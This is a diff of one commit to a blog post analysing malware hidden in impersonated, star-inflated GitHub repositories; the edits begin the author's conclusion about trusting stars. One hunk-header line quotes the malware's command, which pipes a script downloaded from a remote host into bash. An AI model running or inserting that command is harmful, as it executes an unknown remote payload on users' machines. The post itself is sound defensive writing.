

Before and after one commit to hougesen/mhouge.dk, a Markdown page: content/blog/rogue-one-a-malware-story.md, 3 parts joined by grey strips. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

Commit message:
Start writing conclusion

```diff
--- a/content/blog/rogue-one-a-malware-story.md
+++ b/content/blog/rogue-one-a-malware-story.md
@@ -20,7 +20,7 @@ The repository was composed of a single commit with the message `added`, which a
 
 ![GitHub page for unfitpercen/jqfmt](/blog/github-unfitpercen-jqfmt.png)
 
-The repository had over a hundred stars, but not a single issue, pull request, or discussion.
+A repository with a hundred stars, but not a single issue, pull request, or discussion is also a red flag.
 
 Such a star-to-issue ratio usually has one of three explanations:
 
@@ -185,7 +185,7 @@ URL of the ICANN Whois Inaccuracy Complaint Form: https://www.icann.org/wicf/
 
 The `upsetpanther/feishu` repository, which is an impersonation of [CatchZeng/feishu](https://github.com/CatchZeng/feishu), is actually pretty interesting because the README is written in Chinese, which hints that the scammer might be targeting Chinese speaking users (or can speak Chinese themself).
 
-They also removed the GitHub actions from the project files. I am not really sure why though. GitHub actions have a generous free tier, and even if it didn't, would it matter for a bot account?
+They also removed the GitHub actions from the project files. I am not sure why though. GitHub actions have a generous free tier, and even if it didn't, would it matter for a bot account?
 
 The only logical reason would be that GitHub actions expose information about the user when ran, but I was unable to corroborate that theory.
 
@@ -233,4 +233,10 @@ wget -O - https://vanartest.website/storage/de373d0df/a31546bf | /bin/bash &
 
 ![github go-hoyolab side-by-side](/blog/github-go-hoyolab-side-by-side.png)
 
-## A New Hope
+## A New Hope?
+
+Over the last few months I have added support for hundreds of different formatters to [mdsf](https://github.com/hougesen/mdsf).
+
+The amount of times that I have personally validated the code before installing is minimal. I have simply trusted that having stars means the project is "safe". If it hadn't been because I was thrown off by the single commit of `unfitpercen/jqfmt`, I would have fallen for the trap.
+
+I hope that I will be more careful in the future, but while that has been said, I do not think it is realistic to personally validate every single line of code you run. It is simply too many lines to keep up with.
```
Also changed, not shown: other parts of content/blog/rogue-one-a-malware-story.md (+3 -3 lines).
